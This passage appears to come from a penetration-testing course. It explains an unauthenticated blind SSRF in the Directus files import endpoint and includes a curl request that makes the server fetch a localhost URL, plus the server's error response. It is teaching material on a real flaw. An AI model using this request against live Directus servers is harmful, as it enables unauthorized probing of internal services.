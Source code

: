 We don't encounter any authentication checks until code execution reaches line 170. We won't review all of the remaining code. To summarize, the readByKey() function of FileService is responsible for checking authorization. FileService inherits the readByKeys() function from ItemService. The processAST() function defined in /api/src/services/authorization.ts handles authorization.

Since the application downloads the contents of the submitted URL before checking authorization for the storage and retrieval of those contents, the application is vulnerable to unauthenticated blind SSRF. Authenticated users would likely be able to use the files import functionality and access the retrieved data.

Extra Mile
Review the source code for /users/invite. Determine why it cannot be exploited.

1
(GitHub, 2021), https://github.com/directus/directus/blob/v9.0.0-rc.34/api/src/middleware/authenticate.ts ↩︎

2
(GitHub, 2021), https://github.com/directus/directus/blob/v9.0.0-rc.34/api/src/controllers/files.ts ↩︎

##### Exploiting Blind SSRF in Directus
Since we cannot access the results of the SSRF, how can we use it to further our attack? As we have already demonstrated, the application returns different messages for valid files and non-existing files. We can use these different messages to infer if a resource exists.

As a reminder, we receive an HTTP 403 Forbidden when we request a valid resource and an HTTP 500 Internal Server Error with "Request failed with status code 404" when we request a resource that doesn't exist.

Let's check if we can use the SSRF to force Directus to connect to itself. If we send a localhost URL, the application should attempt to connect to its own server. Since such a request originates from the server, we would be able to use such a payload to access ports listening only on localhost.

Let's try it out by sending a url value of "http://localhost:8000/".

kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8000/"}' http://apigateway:8000/files/import
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 108
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"6c-MCdMjU9mfpVtWiLKyczhTW/6Xqo"
Date: Thu, 25 Feb 2021 16:34:32 GMT
X-Kong-Upstream-Latency: 27

{"errors":[{"message":"connect ECONNREFUSED 127.0.0.1:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Listing 25 - Exploiting SSRF with localhost

We received an error that the connection was refused. This new error message is interesting. We know port 8000 is open externally on the API Gateway server. However, if Directus is running on a different server behind the API gateway, "localhost" would refer to the server running Directus, not the server running Kong API Gateway.

